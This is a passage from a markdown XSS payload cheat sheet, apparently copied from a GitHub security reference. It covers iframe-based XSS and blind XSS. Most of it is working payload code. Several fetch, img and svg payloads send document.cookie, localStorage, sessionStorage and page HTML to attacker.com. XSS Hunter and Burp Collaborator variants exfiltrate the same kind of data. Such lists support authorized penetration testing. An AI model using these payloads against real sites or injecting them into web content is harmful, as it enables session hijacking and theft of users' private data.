 ```javascript
```

### XSS with iframe

```html
<iframe src="javascript:alert('XSS')"></iframe>

<iframe srcdoc="<script>alert('XSS')</script>"></iframe>

<iframe onload="alert('XSS')"></iframe>
```

## Blind XSS

Blind XSS occurs when payload execution happens on pages that the attacker cannot directly see, such as admin panels, logs, or support tickets.

### Blind XSS Payloads

```javascript
// Basic external script payload
<script src="https://attacker.com/payload.js"></script>

// Fetch-based payload
<script>
fetch('https://attacker.com/blind?url='+encodeURIComponent(location.href)+
      '&cookie='+encodeURIComponent(document.cookie)+
      '&localStorage='+encodeURIComponent(JSON.stringify(localStorage))+
      '&sessionStorage='+encodeURIComponent(JSON.stringify(sessionStorage))+
      '&html='+encodeURIComponent(document.documentElement.innerHTML.substring(0,1000)))
</script>

// Image-based payload (does not require script tags)
<img src=x onerror="this.src='https://attacker.com/blind.jpg?url='+encodeURIComponent(location.href)">

// SVG-based payload
<svg onload="fetch('https://attacker.com/blind?'+document.domain)">
```

### Blind XSS Testing Tools

#### XSS Hunter
```html
<script src="https://yoursubdomain.xss.ht"></script>
```

#### Blind XSS with Burp Collaborator
```html
<script>
  fetch('https://BURP-COLLABORATOR-SUBDOMAIN.burpcollaborator.net', {
    method: 'POST',
    body: JSON.stringify({
      url: location.href,
      cookies: document.cookie,
      localStorage: localStorage,
      dom: document.documentElement.outerHTML.substring(0,5000)
    })
  })
</script>
```
